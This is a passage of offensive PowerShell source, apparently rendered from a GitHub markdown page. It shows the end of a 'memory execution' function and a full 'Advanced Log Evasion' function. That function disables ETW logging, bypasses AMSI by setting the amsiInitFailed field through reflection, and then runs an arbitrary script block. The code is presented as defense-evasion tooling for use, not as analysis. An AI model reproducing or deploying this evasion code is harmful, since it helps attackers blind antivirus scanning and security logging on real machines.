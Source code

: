 ```powershell
        
        if ($BypassLogging) {
            # Restore original logging
            $PSDefaultParameterValues['*:Verbose'] = $originalLogging
        }
        
        Write-Host "✅ Advanced memory execution completed successfully" -ForegroundColor Green
        return $result
        
    } catch {
        Write-Warning "Advanced memory execution failed: $($_.Exception.Message)"
        return $null
    }
}
```

#### **2. Advanced Log Evasion**
```powershell
# PowerShell Script: Advanced Log Evasion
function Invoke-AdvancedLogEvasion {
    param(
        [ScriptBlock]$ScriptBlock,
        [switch]$DisableETW,
        [switch]$DisableAMSI
    )
    
    try {
        if ($DisableETW) {
            Write-Host "🔒 Disabling ETW logging..." -ForegroundColor Yellow
            # Disable ETW providers
            $etwProviders = Get-WinEvent -ListProvider Microsoft-Windows-PowerShell
            foreach ($provider in $etwProviders) {
                $provider.Enabled = $false
            }
        }
        
        if ($DisableAMSI) {
            Write-Host "🛡️ Disabling AMSI..." -ForegroundColor Yellow
            # AMSI bypass using reflection
            $amsiContext = [Reflection.Assembly]::LoadWithPartialName("System.Management.Automation")
            $amsiType = $amsiContext.GetType("System.Management.Automation.AmsiUtils")
            $amsiType.GetField("amsiInitFailed", "NonPublic,Static").SetValue($null, $true)
        }
        
        # Execute script block
        $result = & $ScriptBlock
        
        Write-Host "✅ Advanced log evasion completed successfully" -ForegroundColor Green
        return $result
        
    } catch {
        Write-Warning "Advanced log evasion failed: $($_.Exception.Message)"
        return $null
    }
}
```

---